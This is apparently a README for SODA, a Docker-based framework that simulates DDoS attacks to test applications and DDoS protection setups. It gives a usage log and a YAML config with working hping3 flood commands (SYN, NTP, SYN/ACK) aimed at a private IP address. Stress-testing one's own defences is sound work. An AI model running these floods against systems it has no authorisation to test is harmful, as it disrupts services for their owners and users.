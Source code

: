 # Simulation of DDoS Attacks
SODA framework allows to launch any kind of DDoS attacks to discover your application weaknesses or evaluate DDoS protection device configuration.
# Requirements
Docker engine needs to be installed
# Usage
```
attacker@host$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock soda 10.11.73.12 -t 1 -n vlan973 -i 5
2019-05-30 17:56:47.643947 ATTACK START: SYN Flood: ['hping3', '-S', '-p', '80', '--flood', '10.11.73.12']
2019-05-30 17:56:53.575779 ATTACK STOP: SYN Flood
2019-05-30 17:56:53.993703 ATTACK START: NTP Flood: ['hping3', '-2', '-p', '123', '-s', '123', '-k', '-d', '64', '--flood', '10.11.73.12']
2019-05-30 17:56:59.923751 ATTACK STOP: NTP Flood
2019-05-30 17:57:00.365518 ATTACK START: SYN/ACK Flood: ['hping3', '-SA', '-p', '80', '--flood', '10.11.73.12']
2019-05-30 17:57:06.262938 ATTACK STOP: SYN/ACK Flood
2019-05-30 17:57:06.678110 ATTACK START: NTP Non-standard Port Flood: ['hping3', '-2', '-p', '++1', '-s', '123', '-k', '-d', '64', '--flood', '10.11.73.12']
^CKilling all running containers...
goofy_keldysh
```
# Configuration
soda.yml config file allows to specify what kind of attacks you want to launch. This file contains yaml declaration for tool name and it's paramaeters.
```
attacks:
  - type: "SYN Flood"
    tool: "hping3"
    flags:
      - "-S"
      - "-p 80"
      - "--flood"
  - type: "NTP Flood"
    tool: "hping3"
    flags:
      - "-2"
      - "-p 123"
      - "-s 123 -k"
      - "-d 64"
      - "--flood"
  - type: "SYN/ACK Flood"
    tool: "hping3"
    flags:
      - "-SA"
      - "-p 80"
      - "--flood"
```
